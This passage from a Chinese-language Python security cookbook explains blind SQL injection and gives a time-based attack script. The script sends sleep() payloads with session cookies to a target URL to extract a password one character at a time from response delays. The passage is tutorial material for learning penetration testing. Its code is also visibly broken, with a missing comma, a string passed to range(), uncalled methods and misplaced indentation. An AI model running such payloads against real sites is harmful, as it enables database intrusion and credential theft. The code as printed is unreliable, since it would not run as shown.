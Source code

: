 如果`yes`值不存在，我们将`asciivalue`添加到该位置的下一个潜在角色并通过：

```py
else:
      asciivalue = asciivalue + 1
      pass
```

最后，我们为每个循环重置`asciivalue`，然后当循环到达字符串长度时，我们完成，打印整个恢复的字符串：

```py
asciivalue = 1
print “Recovered String: “+ ''.join(answer)
```

## 还有更多…

这个脚本可能会被修改，以便通过更好的 SQL 注入字符串处理表中的迭代和恢复多个值。最终，这为开发更复杂和令人印象深刻的脚本以处理具有挑战性的任务提供了一个基础，就像后来的盲 SQL 注入脚本一样。有关这些概念的高级实现，请参见*利用盲 SQL 注入*脚本。

# 利用盲 SQL 注入

有时候，生活会给你柠檬；盲目的 SQL 注入点就是其中的一些柠檬。当您合理地确定已发现 SQL 注入漏洞，但没有错误且无法让它返回数据时，在这些情况下，您可以使用 SQL 中的计时命令使页面暂停以返回响应，然后使用该计时对数据库及其数据进行判断。

我们将创建一个脚本，该脚本向服务器发出请求，并根据请求的字符返回不同时间的响应。然后它将读取这些时间并重新组合字符串。

## 怎么做…

脚本如下：

```py
import requests

times = []
print “Kicking off the attempt”
cookies = {'cookie name': 'Cookie value'}

payload = {'injection': '\'or sleep char_length(password);#', 'Submit': 'submit'}
req = requests.post('<target url>' data=payload, cookies=cookies)
firstresponsetime = str(req.elapsed.total_seconds)

for x in range(1, firstresponsetime):
  payload = {'injection': '\'or sleep(ord(substr(password, '+str(x)+', 1)));#', 'Submit': 'submit'}
  req = requests.post('<target url>', data=payload, cookies=cookies)
  responsetime = req.elapsed.total_seconds
  a = chr(responsetime)
    times.append(a)
    answer = ''.join(times)
print “Recovered String: “+ answer
```

## 它是如何工作的…
